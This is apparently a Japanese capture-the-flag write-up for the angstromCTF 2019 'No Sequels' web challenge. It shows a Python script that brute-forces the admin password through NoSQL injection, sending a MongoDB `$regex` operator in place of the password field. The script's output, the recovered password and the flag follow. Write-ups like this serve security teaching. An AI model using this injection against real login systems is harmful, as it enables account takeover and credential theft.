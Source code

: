 ```javascript
        if (pass === req.body.pass2){
            res.render('final');
        } else {
            res.render('access', {username:' \''+req.user.name+'\' ', message:"Wrong LOL!"});
        }
 
    });
 
});
```

`admin` のパスワードを入手すればよいようです。[`$regex` 演算子](https://docs.mongodb.com/manual/reference/operator/query/regex/)を利用して 1 文字ずつ総当たりで特定していきましょう。

```python
import json
import requests
import string

URL = 'https://nosequels.2019.chall.actf.co/login'
res = ''

while True:
  for c in 'abcdefghijklmnopqrstuvwxyz0123456789':
    r = requests.post(URL, cookies={
      'token': '…'
    }, headers={
      'Content-Type': 'application/json'
    }, data=json.dumps({
      'username': 'admin',
      'password': {
        '$regex': '^' + res + c +'.*'
      }
    }))
    if b'Wrong username or password' not in r.content:
      res += c
      break
  else:
    print(':(')
  print(res)
```

```
$ python solve.py
︙
congratsyouwin
```

`congratsyouwin` が `admin` のパスワードのようです。これを入力するとフラグが得られました。

```
actf{still_no_sql_in_the_sequel}
```
